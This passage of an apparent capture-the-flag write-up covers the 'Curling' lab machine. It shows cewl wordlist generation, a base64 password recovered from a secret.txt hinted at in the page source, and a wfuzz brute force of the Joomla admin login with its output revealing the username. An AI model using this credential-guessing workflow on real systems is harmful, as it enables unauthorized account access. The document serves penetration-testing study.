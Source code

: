 ```
|_  /tmp/: Potentially interesting folder
```
If we open the site, we can see a title "cewl curling site".  
Since cewl is a kali tool, let's use it against this page and generate a dictionary (cewl.txt) for further use:
```
[root@kali Curling ]$ cewl -w cewl.txt http://$TARGET
```
Now, let's start joomscan in background and dig deeper into the site.  
If we inspect the source code, we can find a comment: ```<!-- secret.txt -->```.  
So, let's open secret.txt
```
Q3VybGluZzIwMTgh
```
if we base64 decode this, we get something that looks really similar to a password:
```
[root@kali Curling ]$ cat secret.txt | base64 -d
Curling2018!#                 
```
So given the password, we can try to bruteforce the login using wfuzz and the cewl.txt wordlist.  
To do so we need to intercept the login request via burp, copy post data and cookies and pass it to wfuzz, replacing the parameter we want to brute with the keyword 'FUZZ'.  
When crafted the request will look as follows:  
```
[root@kali Curling ]$ wfuzz -w cewl.txt -b 'c0548020854924e0aecd05ed9f5b672b=v9ff8b7f27jb4i2c9t6ti6t71t; 99fb082d992a92668ce87e5540bd20fa=oura4b5mvht020nn76f54elo6v' -d 'username=FUZZ&passwd=Curling2018!&option=com_login&task=login&return=aW5kZXgucGhw&5338e62bfbd7d9179283485d7f71e932=1' -p 127.0.0.1:8080 -c http://10.10.10.150/administrator/index.php
```
Now we can run wfuzz and we get the following output:
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.150/administrator/index.php
Total requests: 218

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

[... SNIP ...]
000000207:   200        114 L    373 W      5403 Ch     "row"
000000208:   200        114 L    373 W      5403 Ch     "associated"
000000205:   200        114 L    373 W      5403 Ch     "items"
000000209:   200        114 L    373 W      5403 Ch     "Your"
000000203:   200        114 L    373 W      5403 Ch     "verification"
000000201:   200        114 L    373 W      5403 Ch     "enter"
000000199:   200        114 L    373 W      5403 Ch     "Prev"
000000195:   200        114 L    373 W      5403 Ch     "will"
000000204:   200        114 L    373 W      5403 Ch     "code"
000000200:   200        114 L    373 W      5403 Ch     "Please"
000000194:   200        114 L    373 W      5403 Ch     "account"
000000193:   200        114 L    373 W      5403 Ch     "address"
000000202:   200        114 L    373 W      5403 Ch     "Submit"
000000197:   200        114 L    373 W      5403 Ch     "item"
000000196:   200        114 L    373 W      5403 Ch     "Next"
000000192:   200        114 L    373 W      5403 Ch     "email"
000000187:   303        0 L      0 W        0 Ch        "Floris"
000000188:   200        114 L    373 W      5403 Ch     "Email"
000000185:   200        114 L    373 W      5403 Ch     "content"
000000218:   200        114 L    373 W      5403 Ch     "new"
000000217:   200        114 L    373 W      5403 Ch     "choose"
000000191:   200        114 L    373 W      5403 Ch     "Atom"
```